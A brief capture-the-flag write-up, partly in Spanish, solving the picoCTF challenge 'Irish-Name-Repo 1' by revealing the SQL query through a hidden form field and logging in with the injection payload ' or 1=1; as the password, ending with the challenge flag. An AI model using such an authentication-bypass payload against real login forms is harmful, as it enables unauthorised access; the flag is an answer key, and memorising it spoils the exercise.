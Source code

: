 #  Irish-Name-Repo 1

#### Description
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!

## Hints
### 1
There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
### 2
Try to think about how the website verifies your login.

## Solucion
Con el ispector vemos el campo oculto y cambiamos el valor a 1
para poder ver la consulta SQL

admin en el usuario
Y en la contrasenia   ' or 1=1;

username: admin 
password: ' or 1=1;
SQL query: SELECT * FROM users WHERE name='admin ' AND password='' or 1=1;'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}